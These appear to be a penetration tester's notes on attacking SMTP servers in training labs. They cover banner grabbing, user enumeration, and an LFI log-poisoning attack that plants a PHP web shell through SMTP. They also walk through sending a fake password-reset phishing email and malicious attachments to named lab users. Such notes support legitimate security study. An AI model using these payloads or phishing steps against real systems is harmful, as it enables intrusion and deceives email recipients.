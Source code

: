 https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp

### Initial checks

Banner grabbing:
```bash
nc -vn <IP> 25
```

Nmap enumeration:
```bash
nmap -p25 --script smtp* <IP>
```
>[!info] 
>Identify version and check for exploits using searchsploit
>- e.g. [[Bratarina]]

SMTP user enum: 
```
smtp-user-enum -M VRFY -U users.txt -t <IP>
```
>[!info]
>Example wordlist: `/opt/SecLists/Usernames/xato-net-10-million-usernames.txt`


### LFI -> Log poisoning to RCE

Connect to SMTP using telnet: [Guide](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/)

Approach 1:
```bash
telnet <IP> 25

MAIL FROM:<gmail@gmail.com> 
RCPT TO:<?php system($_GET['c']); ?>
```

Approach 2:
```bash
telnet <IP> 25

MAIL FROM: <raj>
RCPT TO: Helios
data
<?php system($_GET['c']); ?>
```

Now use LFI on the webpage:
```bash
http://<URL>/<PAGE>.php?file=/var/log/mail&c=id
```


### Send email 

Manual approach:
```bash
telnet 192.168.234.137 25
Trying 192.168.234.137...
Connected to 192.168.234.137.
Escape character is '^]'.
220 postfish.off ESMTP Postfix (Ubuntu)
HELO postfish.off
250 postfish.off
MAIL FROM:it@postfish.off
250 2.1.0 Ok
RCPT TO:brian.moore@postfish.off
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: Reset your password
Use the following link: http://192.168.45.161/
.
250 2.0.0 Ok: queued as C33E945441
```

With attachment for client side attack
```bash
# Sendemail:
sendemail -t <to> -f <from> -s <IP> -u "<pwned>" -a <file> -xu <user> -xp '<pass>' -m "toto" -VV

# Swaks:
sudo swaks -t <user@domain> --from <user@domain> --attach @config.Library-ms --server <IP> --body @body.txt --header "Subject: <pwned>" --suppress-data -ap

# Alt
swaks -t "mailadmin@localhost" -f "jonas@localhost" --header "Subject: Sheet" --body "Here you go" --attach @file.ods --protocol SMTP --server <IP>
```

Example:
```bash
# Sendemail:
sendemail -t marcus@beyond.com -f john@beyond.com -s 192.168.129.242 -u "Please Update" -a /home/kali/PG/Challenge_Labs/BEYOND/MAILSRV1/config.Library-ms -xu john -xp 'dqsTwTpZPn#nL' -m "toto" -VV

# Swaks:
sudo swaks -t f.miller@skylark.com --from s.ahmed@skylark.com --attach @runme.xls --server 10.10.155.13 --body @body.txt --header "Check it" --suppress-data -ap
```
